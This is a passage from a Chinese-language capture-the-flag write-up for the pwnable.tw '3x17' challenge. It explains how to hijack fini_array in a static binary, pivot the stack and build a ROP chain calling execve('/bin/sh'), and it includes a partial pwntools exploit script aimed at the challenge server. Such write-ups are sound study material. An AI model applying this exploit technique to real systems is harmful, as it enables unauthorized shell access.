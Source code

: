 ```C
}
```

### 思路

> 这条题目还有其他解法，因为用这条题目学习 **fini_array 劫持**就记录这种做法。其他解法：[pwnable.tw_3x17](https://kirin-say.top/2019/02/08/pwnable-tw-3x17/)

静态编译程序只能用它的有东西 getshell 。写 shellcode 估计要 mprotect 给内容加上运行权限绕过 NX 保护；写个系统调用号可行一点。

那就需要用到写入功能函数了，如果需要符合本文学习内容，就需要一个任意地址写的函数，刚好 main 函数就是。现在明确思路：

1. 将 fini_array[1] 覆盖为 main 函数地址；fini_array[0] 覆盖为 \_\_libc_start_fini 地址；

2. 依次向 fini_array + 0x10 写入系统调用号利用代码；

3. 写入完成后，将 fini_array[0] 覆盖为 ``leave|ret``，将栈迁移到 fini_array + 0x10;

> 构建的系统调用命令：syscall(0x3b,addr_of_binsh,0,0)
>
> 相当于：execve(addr_of_binsh,0,0)
>
> 系统调用号查询：https://www.mrskye.cn/archives/168/

### exp

```python
from pwn import *
context.log_level = 'debug'

#p = process("./317")
p = remote("chall.pwnable.tw",10105)
elf = process("./317")

fini_array = 0x4B40F0
main_addr = 0x401B6D
libc_csu_fini = 0x402960
esp = fini_array + 0x10
leave_ret = 0x401C4B
ret = 0x401016
 
rop_syscall = 0x471db5
rop_pop_rax = 0x41e4af
rop_pop_rdx = 0x446e35
rop_pop_rsi = 0x406c30
rop_pop_rdi = 0x401696
bin_sh_addr = 0x4B419A
 
def write(addr,data):
    p.recv()
    p.send(str(addr))
    p.recv()
    p.send(data)
 
def exp():
    # hijack fini_array
    #gdb.attach(p)
    write(fini_array,p64(libc_csu_fini) + p64(main_addr))
 
    # rop chain
    write(bin_sh_addr,"/bin/sh\x00")
    write(esp,p64(rop_pop_rax))
    write(esp+8,p64(0x3b))
    write(esp+16,p64(rop_pop_rdi))
    write(esp+24,p64(bin_sh_addr))
    write(esp+32,p64(rop_pop_rdx))
```